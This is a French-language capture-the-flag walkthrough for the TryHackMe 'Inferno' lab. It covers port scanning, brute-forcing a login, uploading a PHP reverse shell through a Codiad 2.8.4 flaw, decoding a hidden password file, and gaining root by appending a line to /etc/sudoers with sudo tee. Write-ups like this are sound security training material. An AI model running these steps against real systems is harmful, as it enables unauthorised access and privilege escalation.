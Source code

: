 # Inferno

![04838068cabd2452b322e06418cce864(1)](https://user-images.githubusercontent.com/68467919/210245790-5a331e70-3a66-4cc5-897d-8a9b5d18fc52.png)

Plateforme: **TryHackme**

Nom: Inferno

Difficulté: **Medium**

Infos: **security**, **rce**, **oscp**, **vulnhub**

---

### Nmap

```bash
sudo nmap -sC -sV -O -oN enum/nmap -vv $ip

PORT      STATE SERVICE           REASON         VERSION
21/tcp    open  ftp?              syn-ack ttl 63
22/tcp    open  ssh               syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d7ec1a7f6274da2964b3ce1ee26804f7 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDBR1uDh8+UHIoUl3J5AJApSgrmxFtvWtauxjTLxH9B5s9E0SThz3fljXo7uSL+2hjphfHyqrdAxoCGQJgRn/o5xGDSpoSoORBIxv1LVaZJlt/eIEhjDP48NP9l/wTRki9zZl5sNVyyyy/lobAj6BYH+dU3g++2su9Wcl0wmFChG5B2Kjrd9VSr6TC0XJpGfQxu+xJy29XtoTzKEiZCoLz3mZT7UqwsSgk38aZjEMKP9QDc0oa5v4JmKy4ikaR90CAcey9uIq8YQtSj+US7hteruG/HLo1AmOn9U3JAsVTd4vI1kp+Uu2vWLaWWjhfPqvbKEV/fravKSPd0EQJmg1eJ
|   256 de4feefa862efbbd4cdcf96773028434 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKFhVdH50NAu45yKvSeeMqyvWl1aCZ1wyrHw2MzGY5DVosjZf/rUzrdDRS0u9QoIO4MpQAvEi7w7YG7zajosRN8=
|   256 e26d8de1a8d0bd97cb9abc03c3f8d885 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAdzynTIlsSkYKaqfCAdSx5J2nfdoWFw1FcpKFIF8LRv
23/tcp    open  telnet?           syn-ack ttl 63
25/tcp    open  smtp?             syn-ack ttl 63
|_smtp-commands: Couldn't establish connection on port 25
80/tcp    open  http              syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-title: Dante's Inferno
88/tcp    open  kerberos-sec?     syn-ack ttl 63
106/tcp   open  pop3pw?           syn-ack ttl 63
110/tcp   open  pop3?             syn-ack ttl 63
389/tcp   open  ldap?             syn-ack ttl 63
443/tcp   open  https?            syn-ack ttl 63
464/tcp   open  kpasswd5?         syn-ack ttl 63
636/tcp   open  ldapssl?          syn-ack ttl 63
777/tcp   open  multiling-http?   syn-ack ttl 63
783/tcp   open  spamassassin?     syn-ack ttl 63
808/tcp   open  ccproxy-http?     syn-ack ttl 63
873/tcp   open  rsync?            syn-ack ttl 63
1001/tcp  open  webpush?          syn-ack ttl 63
1236/tcp  open  bvcontrol?        syn-ack ttl 63
1300/tcp  open  h323hostcallsc?   syn-ack ttl 63
2000/tcp  open  cisco-sccp?       syn-ack ttl 63
2003/tcp  open  finger?           syn-ack ttl 63
2121/tcp  open  ccproxy-ftp?      syn-ack ttl 63
2601/tcp  open  zebra?            syn-ack ttl 63
2602/tcp  open  ripd?             syn-ack ttl 63
2604/tcp  open  ospfd?            syn-ack ttl 63
2605/tcp  open  bgpd?             syn-ack ttl 63
2607/tcp  open  connection?       syn-ack ttl 63
2608/tcp  open  wag-service?      syn-ack ttl 63
4224/tcp  open  xtell?            syn-ack ttl 63
5051/tcp  open  ida-agent?        syn-ack ttl 63
5432/tcp  open  postgresql?       syn-ack ttl 63
5555/tcp  open  freeciv?          syn-ack ttl 63
5666/tcp  open  nrpe?             syn-ack ttl 63
6346/tcp  open  gnutella?         syn-ack ttl 63
6566/tcp  open  sane-port?        syn-ack ttl 63
6667/tcp  open  irc?              syn-ack ttl 63
|_irc-info: Unable to open connection
8021/tcp  open  ftp-proxy?        syn-ack ttl 63
8081/tcp  open  blackice-icecap?  syn-ack ttl 63
|_mcafee-epo-agent: ePO Agent not found
8088/tcp  open  radan-http?       syn-ack ttl 63
9418/tcp  open  git?              syn-ack ttl 63
10000/tcp open  snet-sensor-mgmt? syn-ack ttl 63
10082/tcp open  amandaidx?        syn-ack ttl 63
```

### Feroxbuster

```python
feroxbuster -u http://10.10.30.189/ -w ~/SecLists/Discovery/Web-Content/raft-medium-words.txt -o enum/feroxbuster -W 28

200      GET       36l       82w      638c http://10.10.30.189/
401      GET       14l       54w      459c http://10.10.30.189/inferno
403      GET        9l       28w      277c http://10.10.30.189/server-status
```

## Port 80 | HTTP

![Untitled](https://user-images.githubusercontent.com/68467919/210245602-6bd805a2-f5ce-4741-b302-86bb3d33fdb6.png)

### /inferno

Quand nous voulons accéder au répertoire /inferno, nous remarquons que nous devons nous authentifier pour pouvoir accéder à la page. Pour cela, nous pourrions tenter de bruteforce la page d’authentification à l’aide d’Hydra.

![Untitled 1](https://user-images.githubusercontent.com/68467919/210245632-dcbbc020-2f26-4527-b603-0f63333b4291.png)

Nous trouvons le mot de passe en quelques minutes. Désormais, nous pouvons utiliser ces logs pour pouvoir nous connecter. 

![Untitled 2](https://user-images.githubusercontent.com/68467919/210245640-cb914972-1e28-44d9-85a1-1166c861468e.png)

En utilisant les mêmes logs trouvés plus haut, nous accédons à un IDE appelé Codiad nous permettant de pouvoir gérer, voir les fichiers et pouvoir également les updates en temps réel sur le serveur web.

Nous nous retrouvons donc sur cette page : 

![Untitled 3](https://user-images.githubusercontent.com/68467919/210245650-e81bbd19-5f5a-4443-a80c-f94ce7e8d034.png)

Nous voulons obtenir un reverse-shell mais en updatant des fichiers déjà existant ou bien en les uploadant à la racine, il est impossible de faire quoi que ce soit. En cherchant sur internet, voici ce que j’ai pu trouver : 

[Codiad 2.8.4 Shell Upload](https://packetstormsecurity.com/files/164735/Codiad-2.8.4-Shell-Upload.html)

Je suis donc allé dans ce répertoire pour pouvoir upload un reverse-shell en php.

```python
/themes/default/filemanager/images/codiad/manifest/files/codiad/example/INF/
```

Après avoir upload mon reverse-shell et accédé au répertoire INF, je réussis à me connecter à la machine.

![Untitled 4](https://user-images.githubusercontent.com/68467919/210245665-5987284f-e6b3-4424-aa51-7014b929cf0e.png)

## Dante | local.txt

Après avoir obtenu un reverse-shell et en regardant dans /etc/passwd, nous pouvons remarquer qu’un utilisateur du nom de dante est présent. En énumérant un peu ses fichiers en faisant la commande

```python
ls -la -R /home/dante/ #permet d'énumérer les fichiers récursivement et de voir les droits, owners des différents fichiers
```

Nous pouvons remarquer un fichier du nom de *.download.dat*

![Untitled 5](https://user-images.githubusercontent.com/68467919/210245671-7b9e624f-a6e1-4bf7-97a0-9104b019c851.png)

En le téléchargeant sur ma machine nous pouvons remarquer à l’aide de la commande *file* que le contenu du fichier est en ASCII. En exécutant la commande 

```python
cat .download.dat | xxd -r -p 
```

Nous pouvons retrouver le contenu du fichier qui contient le mot de passe de notre utilisateur *dante*.

![Untitled 6](https://user-images.githubusercontent.com/68467919/210245680-a4727906-177d-4be9-a4f1-c8f6a148c0e1.png)

Nous pouvons trouver le contenu du premier flag dans /home/dante/*local.txt*

## Root | proof.txt

En énumérant les droits de l’utilisateur **dante**, nous pouvons également remarquer qu’il a le droit d’utiliser la commande **tee** en tant que **root**.

J’ai donc pensé à modifier le fichier */etc/sudoers* pour nous attribuer tous les droits en tant que root.

```python
LFILE=/etc/sudoers
echo "dante ALL=(ALL) ALL" | sudo tee -a "$LFILE"
```

![Untitled 7](https://user-images.githubusercontent.com/68467919/210245690-58a30196-01bf-40b4-b364-92ca14bf2db5.png)

ROOTED !!
